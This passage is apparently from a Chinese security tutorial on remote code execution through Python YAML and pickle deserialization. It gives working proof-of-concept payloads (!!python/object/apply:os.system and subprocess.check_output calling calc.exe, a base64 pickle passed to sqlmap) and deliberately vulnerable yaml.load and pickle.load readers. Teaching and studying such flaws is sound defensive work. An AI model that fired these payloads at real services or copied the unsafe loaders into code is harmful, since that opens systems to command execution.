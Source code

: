 ```python
# -*- coding:utf-8 -*-
import yaml
import os
class test:
    def __init__(self):
        os.system('calc.exe')
payload =  yaml.dump(test())
fp = open('simple.yml','w')
fp.write(payload)
```
可以看到simple.yml中写入的内容如下：
!!python/object:yaml_gen_poc.test {}
再运行yaml_verify.py来验证：
```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'haha'
__github__ = 'https://github.com/'
__filename__ = "yaml_verify.py"
import yaml
from yaml_gen_poc import test 
yaml.load(file('simple.yml', 'r'))
```
构造通用payload
那么我们怎样消除这个依赖呢？就是将其中的类、或者函数 换成python标准库中的类或者函数。
直接修改yml文件为：
```python
!!python/object:os.system ["calc.exe"]
```
再运行，失败（显示参数未传递：TypeError: system() takes exactly 1 argument (0 given)），尝试查看源码、并变换yml文件中语句格式，均未成功！（疑难点）。
修改为以下2种均成功，通过源码得知，new其实是调用了apply，他们的不同的地方是创建对象的方式，这里可以大致认为它们是一样的。
```python
!!python/object/apply:os.system ["calc.exe"]
!!python/object/new:os.system ["calc.exe"]
```
既然解决了依赖问题，那我们就尝试构建一些有用的poc吧，从官方标准库里找可以用来执行命令的函数：https://docs.python.org/2/library/index.html
```python
!!python/object/apply:subprocess.check_output [[calc.exe]]
!!python/object/apply:subprocess.check_output ["calc.exe"]
!!python/object/apply:subprocess.check_output [["calc.exe"]]
!!python/object/apply:os.system ["calc.exe"]
!!python/object/new:subprocess.check_output [["calc.exe"]]
!!python/object/new:os.system ["calc.exe"]
```
## Pickle的任意代码执行漏洞

 Pickle的典型应用场景
一般在什么场景下需要用到Pickle？
* 1. 通常在解析认证token，session的时候。（如果你知道更多，欢迎留言补充，感谢！）现在很多web都使用redis、mongodb、memcached等来存储session等状态信息。P神的文章就有一个很好的redis+python反序列化漏洞的很好例子：https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html。
* 2. 可能将对象Pickle后存储成磁盘文件。
* 3. 可能将对象Pickle后在网络中传输。
* 4. 可能参数传递给程序，比如sqlmap的代码执行漏洞
```
python sqlmap.py --pickled-options "Y29zCnN5c3RlbQooUydkaXInCnRSLg=="
```
### 执行系统命令的Payload
首先构造一个简单的包含漏洞的代码。后续的验证过程中，将生成的Payload放到poc.pickle文件中，使用该代码来读取PoC验证效果（我将其保存为dopickle.py）。
```python
__author__ = 'hahah'
import pickle
pickle.load(open('./poc.pickle'))
```